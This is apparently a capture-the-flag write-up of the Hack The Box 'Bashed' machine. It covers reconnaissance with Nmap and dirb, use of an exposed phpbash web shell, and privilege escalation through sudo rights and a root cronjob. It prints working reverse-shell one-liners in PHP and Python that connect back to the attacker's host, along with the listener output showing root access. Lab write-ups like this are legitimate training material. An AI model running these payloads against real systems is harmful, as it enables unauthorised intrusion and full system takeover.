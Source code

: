 ![image](https://user-images.githubusercontent.com/105310322/187503139-1330b005-f9be-4a05-9bf9-5296ecc3d166.png)

### Tools: Nmap, 

Running Nmap we get port 80 running Apache 2.4.18. Curl did not give anything extra and an Nmap scripot scan did not find anything. We did get some luck with Dirb and we can check that part out.

```console
└──╼ [★]$ sudo nmap -sC -A -O 10.129.64.44
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-15 17:02 BST
Nmap scan report for 10.129.64.44
Host is up (0.0048s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=8/15%OT=80%CT=1%CU=34558%PV=Y%DS=2%DC=T%G=Y%TM=62FA6E1
OS:8%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10A%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M539ST11NW7%O2=M539ST11NW7%O3=M539NNT11NW7%O4=M539ST11NW7%O5=M539ST1
OS:1NW7%O6=M539ST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN
OS:(R=Y%DF=Y%T=40%W=7210%O=M539NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops

TRACEROUTE (using port 995/tcp)
HOP RTT     ADDRESS
1   5.54 ms 10.10.14.1
2   4.90 ms 10.129.64.44

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.79 seconds
```
```console
└──╼ [★]$ curl -I http://10.129.64.44
HTTP/1.1 200 OK
Date: Mon, 15 Aug 2022 16:04:23 GMT
Server: Apache/2.4.18 (Ubuntu)
Last-Modified: Mon, 04 Dec 2017 23:03:42 GMT
ETag: "1e3f-55f8bbac32f80"
Accept-Ranges: bytes
Content-Length: 7743
Vary: Accept-Encoding
Content-Type: text/html
```

```console
└──╼ [★]$ dirb http://10.129.64.44

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Aug 15 17:06:04 2022
URL_BASE: http://10.129.64.44/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.129.64.44/ ----
==> DIRECTORY: http://10.129.64.44/css/                                        
==> DIRECTORY: http://10.129.64.44/dev/                                        
==> DIRECTORY: http://10.129.64.44/fonts/                                      
==> DIRECTORY: http://10.129.64.44/images/                                     
+ http://10.129.64.44/index.html (CODE:200|SIZE:7743)                          
==> DIRECTORY: http://10.129.64.44/js/                                         
==> DIRECTORY: http://10.129.64.44/php/                                        
+ http://10.129.64.44/server-status (CODE:403|SIZE:300)                        
==> DIRECTORY: http://10.129.64.44/uploads/                                    
                                                                               
---- Entering directory: http://10.129.64.44/css/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://10.129.64.44/dev/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://10.129.64.44/fonts/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://10.129.64.44/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://10.129.64.44/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://10.129.64.44/php/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://10.129.64.44/uploads/ ----
+ http://10.129.64.44/uploads/index.html (CODE:200|SIZE:14)                    
                                                                               
-----------------
END_TIME: Mon Aug 15 17:06:36 2022
DOWNLOADED: 9224 - FOUND: 3
```
The /dev directory looks the most interesting and digging slightly further takes us to http://10.129.64.44/dev/phpbash.php

Easy day. We can already navigate to and grab the user flag. Since we have a php bash lets create a reverse shell with it.

```console
www-data@bashed:/var/www/html/dev# ls
phpbash.min.php
phpbash.php
```
```console
www-data@bashed
:/home/arrexel# cat user.txt

343c****************************
```
We set up the listener and run the script and we are in.

```console
bashed:/# php -r '$sock=fsockopen("10.10.14.93",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
```console
└──╼ [★]$ nc -lvnp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.129.64.44.
Ncat: Connection from 10.129.64.44:33962.
/bin/sh: 0: can't access tty; job control turned off
$ 
```
We still can't do anything different but running sudo -l shows that scriptmanager can be used. Note: running the reverse shell to use script manager is required since the limited php shell from the webpage would not allow the sudo command with scriptmanager.

```console
$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
$ sudo -u scriptmanager bash -i
bash: cannot set terminal process group (879): Inappropriate ioctl for device
bash: no job control in this shell
scriptmanager@bashed:/$ ls
```
Awesome now we are scriptmanager but we cannot access the root directory yet. There is an interesting directory labeled /scripts. This directory has a python script and a text file. My first assumption was that I could create a script to read the root.txt flag but my scripting is limited. I noticed that the .txt and .py were updating at the same time which suggests a cronjob being ran by root. With this we have our last step.

```console
scriptmanager@bashed:/$ cd scripts
cd scripts
scriptmanager@bashed:/scripts$ ls
ls
test.py
test.txt
scriptmanager@bashed:/scripts$ cat test.txt
cat test.txt
testing 123!scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ 
```
```console
scriptmanager@bashed:/scripts$ ls -la
ls -la
total 20
drwxrwxr--  2 scriptmanager scriptmanager 4096 Aug 15 09:37 .
drwxr-xr-x 23 root          root          4096 Jun  2 07:25 ..
-rw-r--r--  1 scriptmanager scriptmanager   66 Aug 15 09:55 sol.py
-rw-r--r--  1 scriptmanager scriptmanager  110 Aug 15 10:19 test.py
-rw-r--r--  1 root          root            12 Aug 15 10:19 test.txt
```
We are going to set up 1 last reverse shell in order to gain root. We are going to make our own reverse shell script taken from https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

We are going to use the python reverse shell since its being executed in a python script and set up our listener to catch it. After a minute or so the cronjob executes the script from the directory and we get our reverse shell and the flag!!

```console
scriptmanager@bashed:/scripts$ echo 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.93",1235));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' > sol.py
<);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' > sol.py  
```

```console
└──╼ [★]$ nc -lvnp 1235
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1235
Ncat: Listening on 0.0.0.0:1235
Ncat: Connection from 10.129.64.44.
Ncat: Connection from 10.129.64.44:46748.
# ls
ls
sol.py	test.txt
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
cat /root/root.txt
353d****************************
```
WHOOOOOO!!!!
